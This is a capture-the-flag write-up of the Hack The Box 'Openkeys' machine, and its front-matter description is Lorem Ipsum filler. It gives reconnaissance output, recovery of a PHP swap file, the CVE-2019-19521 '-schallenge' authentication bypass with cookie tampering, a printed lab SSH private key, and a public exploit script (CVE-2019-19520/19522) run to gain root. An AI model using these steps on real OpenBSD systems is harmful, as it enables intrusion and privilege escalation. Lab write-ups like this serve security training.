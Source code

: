 ```yaml
---
title: Openkeys - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-09-10
image: images/openkeys_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```




   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb/openkeys# nmap -Pn -n -sC -sV 10.10.10.199
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey:
    |   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
    |   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
    |_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
    80/tcp open  http    OpenBSD httpd
    |_http-title: Site doesn't have a title (text/html).

    DIRB:
    ==> DIRECTORY: http://10.10.10.199/css/
    ==> DIRECTORY: http://10.10.10.199/fonts/
    ==> DIRECTORY: http://10.10.10.199/images/
    ==> DIRECTORY: http://10.10.10.199/includes/
    + http://10.10.10.199/index.html (CODE:200|SIZE:96)
    + http://10.10.10.199/index.php (CODE:200|SIZE:4837)
    ==> DIRECTORY: http://10.10.10.199/js/
    ==> DIRECTORY: http://10.10.10.199/vendor/

    NIKTO:
    + Server: OpenBSD httpd
    + Cookie PHPSESSID created without the httponly flag
    + Multiple index files found: /index.php, /index.html
    + OSVDB-3092: /includes/: This might be interesting...


2. Enumerating the webserver we find some interesting files right away.

  http://10.10.10.199/includes/auth.php.swp

  Download the swap-file and restor it by using 'vim -r auth.php.swp', save the file as auth.php (:w auth.php)

    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/includes/auth.php.swp --output auth.php.swp
    root@nidus:/git/htb/openkeys# cat auth.php
      [..]
      $cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);
      system($cmd, $retcode);
      [..]
      function init_session()
      {
          $_SESSION["logged_in"] = True;
          $_SESSION["login_time"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["last_activity"] = $_SERVER['REQUEST_TIME'];
          $_SESSION["remote_addr"] = $_SERVER['REMOTE_ADDR'];
          $_SESSION["user_agent"] = $_SERVER['HTTP_USER_AGENT'];
          $_SESSION["username"] = $_REQUEST['username'];

  From the first snippet of the code we see that username and passwords are verified using '../auth_helpers/check_auth'
  In the second snippet we learn that the SESSION variable is controlled in the init-function, including username on the last line.

  Lastly, running strings on the swap file gives us a user - Jennifer.

    root@nidus:/git/htb/openkeys# strings auth.php.swp
      b0VIM 8.1
      jennifer
      openkeys.htb
      [..]

  Download the check_auth program, and enumerate it.
    root@nidus:/git/htb/openkeys# curl http://10.10.10.199/auth_helpers/check_auth --output check_auth
    root@nidus:/git/htb/openkeys# file check_auth
      check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped

  We could try to RE this ELF-file, however I'll go with this as a last resort. As for now it is not needed.


3. With all enumerated information, lets start to look for exploits. Pretty quickly we find an article covering
   four big OpenBSD vulnerabilities:
     - CVE-2019-19519 (Local privilege escalation)
     - CVE-2019-19520 (Local privilege escalation)
     - CVE-2019-19521 (Authentication Bypass)
     - CVE-2019-19522 (Local privilege escalation)

  CVE-2019-19521 tells us in short that we can bypass the auth by entering '-schallenge' as username, and any password.
  Trying this on our login prompt is successful, we are greeted with the text "OpenSSH key not found for user -schallenge"

  This is where I got stuck for a good while and had to turn to the forums for help. But as we could see before, the SESSION
  variable username can be controlled - and maybe tampered with in the cookie. Set the Name-filed to 'username' and
  Value-filed to 'jennifer'.

  Log in and out again, and voila! We got Jennifer's private key!

     -----BEGIN OPENSSH PRIVATE KEY-----
    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
    -----END OPENSSH PRIVATE KEY-----


4. Save the private key, login as Jennifer and grab user.txt.

    root@nidus:/git/htb/openkeys# ssh jennifer@openkeys.htb -i jennifer_id-rsa
      Last login: Wed Jun 24 09:31:16 2020 from 10.10.14.2
      OpenBSD 6.6 (GENERIC) #353: Sat Oct 12 10:45:56 MDT 2019

      Welcome to OpenBSD: The proactively secure Unix-like operating system.

      Please use the sendbug(1) utility to report bugs in the system.
      Before reporting a bug, please try to reproduce it with the latest
      version of the code.  With bug reports, please try to ensure that
      enough information to reproduce the problem is enclosed, and if a
      known fix for it exists, include that as well.

      openkeys$ id
        uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      openkeys$ cat user.txt
        36ab21239a15c537bde90626891d2b10



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. From our previous article, we also found three CVE's for Local PrivEsc, CVE-2019-19519, CVE-2019-19520 and CVE-2019-19522.
   A quick google for the CVE's we find a script called openbsd-authroot on github, download it and try it out.

    openkeys$ vi openbsd-authroot
    openkeys$ chmod +x openbsd-authroot
    openkeys$ ./openbsd-authroot
    openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
      [*] checking system ...
      [*] system supports S/Key authentication
      [*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
      [*] compiling ...
      [*] running Xvfb ...
      [*] testing for CVE-2019-19520 ...
      _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.
      [+] success! we have auth group permissions

      WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

      [*] trying CVE-2019-19522 (S/Key) ...
      Your password is: EGG LARD GROW HOG DRAG LAIN
      otp-md5 99 obsd91335
      S/Key Password:

      openkeys# id
        uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
      openkeys# cat root.txt
        f3a553b1697050ae885e7c02dbfc6efa


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


OpenBSD Auth Bypass
  https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/
  https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt

openbsd-authroot PrivEsc
  https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot
